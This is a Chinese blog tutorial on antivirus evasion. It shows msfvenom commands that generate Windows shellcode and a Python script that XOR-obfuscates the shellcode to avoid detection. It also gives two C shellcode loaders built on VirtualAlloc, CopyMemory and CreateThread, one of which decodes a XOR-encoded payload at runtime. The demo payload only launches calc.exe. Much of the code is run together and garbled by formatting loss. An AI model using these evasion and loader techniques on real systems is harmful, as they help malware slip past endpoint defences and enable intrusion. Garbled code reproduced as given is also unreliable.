





0x01 前言 2024，代码审计+渗透测试已经满足不了市场，所以准备花几个月学免杀，虽然以前写一个一些免杀，但是好久没用上。so，这次就从头开始。
0x02 Shellcode定义 Shellcode是一段机器指令的集合，通常会被压缩至很小的长度，达到为后续恶意代码铺垫的作用。当然你可以通过msfvenom生成各种用于测试的shellcode。
0x03 RAW文件 RAW 中文意思是原始的、未经加工的，RAW文件是可以直接进行字节操作读取的，我本地直接使用msf生成。
1 msfvenom -p windows/exec CMD=calc.exe -f raw >calc.bin && cat calc.bin

0x04 C文件 C文件给出的是一个C语言中的字符数组
1 msfvenom -p windows/exec CMD=calc.exe -f c

0x05 混淆 由于反病毒软件对于默认生成的文件查杀较为严格，这里写个简单的混淆脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 import sysfrom argparse import ArgumentParser, FileTypedef apply_xor (bytearray_data, xor_key, raw_output=False ):for i in range (len (bytearray_data)):if raw_output:with open ("xor_raw.bin" , "wb" ) as f:if __name__ == "__main__" :"file" , type =FileType("rb" ), help ="输入文件路径" )"mode" , choices=["c" , "cs" ], help ="输出模式：c 或 cs" )"-x" , "--xor" , type =int , help ="XOR 密钥" )"-r" , "--raw" , action="store_true" , help ="输出原始结果" )if args.xor:else :None if args.mode == "c" :"\"" 1 15 bytearray (args.file.read())if xor_key:for b in bytearray_data:"\\x" + format (b, '02x' )if ctr == maxlen:"\" \n\"" 0 1 "\"" print ("unsigned char buf[] =\n" +shellcode+";" )else :"" "" 1 15 bytearray (args.file.read())if xor_key:for b in bytearray_data:"0x" + format (b, '02x' ) + "," if ctr == maxlen:"\n" 0 1 str (len (bytearray_data))print ("byte[] buf = new byte[" +length+"] {\n" +shellcode_hex[:-1 ]+"};" )

实现把bin转为可用的shellcode格式，-x是进行混淆，不带x就默认转格式，-r是bin进行xor在生成新的bin。
0x05 关于Windows操作系统内存 Windows操作系统的内存有三种属性，分别为：可读、可写、可执行，并且操作系统将每个进程的内存都隔离开来，当进程运行时，创建一个虚拟的内存空间，系统的内存管理器将虚拟内存空间映射到物理内存上，所以每个进程的内存都是等大的。
操作系统给予每个进程申请内存的权力，使用不同的API，申请的内存具有不同的涵义。
在进程申请时，需要声明这块内存的基本信息：申请内存大小、申请内存起始内存基址、申请内存属性、申请内存对外的权限等。
申请方式：
0x06 加载
直接使用msf生成的c代码，可以正常加载
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 #include <Windows.h> int wmain (int argc, TCHAR* argv[]) int shellcode_size = 0 ; unsigned char buf[] ="\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50" "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52" "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a" "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41" "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52" "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48" "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40" "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48" "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41" "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1" "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c" "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01" "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a" "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b" "\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00" "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b" "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd" "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0" "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff" "\xd5\x63\x61\x6c\x63\x00" ;sizeof (buf);char * shellcode = (char *)VirtualAlloc (NULL ,CopyMemory (shellcode, buf, shellcode_size);CreateThread (NULL , NULL , NULL , NULL , WaitForSingleObject (hThread, INFINITE); return 0 ;

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 #include <Windows.h> #include <iostream> void load (int n) int shellcode_size = 0 ; unsigned char buf[] ="\xf6\xe2\x88\x0a\x0a\x0a\x6a\x83\xef\x3b\xca\x6e\x81\x5a\x3a" "\x81\x58\x06\x81\x58\x1e\x81\x78\x22\x05\xbd\x40\x2c\x3b\xf5" "\xa6\x36\x6b\x76\x08\x26\x2a\xcb\xc5\x07\x0b\xcd\xe8\xf8\x58" "\x5d\x81\x58\x1a\x81\x40\x36\x81\x46\x1b\x72\xe9\x42\x0b\xdb" "\x5b\x81\x53\x2a\x0b\xd9\x81\x43\x12\xe9\x30\x43\x81\x3e\x81" "\x0b\xdc\x3b\xf5\xa6\xcb\xc5\x07\x0b\xcd\x32\xea\x7f\xfc\x09" "\x77\xf2\x31\x77\x2e\x7f\xee\x52\x81\x52\x2e\x0b\xd9\x6c\x81" "\x06\x41\x81\x52\x16\x0b\xd9\x81\x0e\x81\x0b\xda\x83\x4e\x2e" "\x2e\x51\x51\x6b\x53\x50\x5b\xf5\xea\x55\x55\x50\x81\x18\xe1" "\x87\x57\x60\x0b\x87\x8f\xb8\x0a\x0a\x0a\x5a\x62\x3b\x81\x65" "\x8d\xf5\xdf\xb1\xfa\xbf\xa8\x5c\x62\xac\x9f\xb7\x97\xf5\xdf" "\x36\x0c\x76\x00\x8a\xf1\xea\x7f\x0f\xb1\x4d\x19\x78\x65\x60" "\x0a\x59\xf5\xdf\x69\x6b\x66\x69\x24\x6f\x72\x6f\x0a" ;sizeof (buf);for (int i = 0 ; i < shellcode_size; i++) {10 ;char * shellcode = (char *)VirtualAlloc (NULL ,CopyMemory (shellcode, buf, shellcode_size);CreateThread (NULL , NULL , NULL , NULL , WaitForSingleObject (hThread, INFINITE); int main (int argc, char * argv[]) if (argc < 2 ) {printf ("Please input a string and XOR's number!\n" );return 1 ;int xor_key = atoi (argv[1 ]);load (xor_key);return 0 ;

参考 https://rvn0xsy.github.io/archivers/2019-11-10/2/
声明 此文章 仅用于教育目的。请负责任地使用它，并且仅在您有明确测试权限的系统上使用。滥用此 PoC 可能会导致严重后果。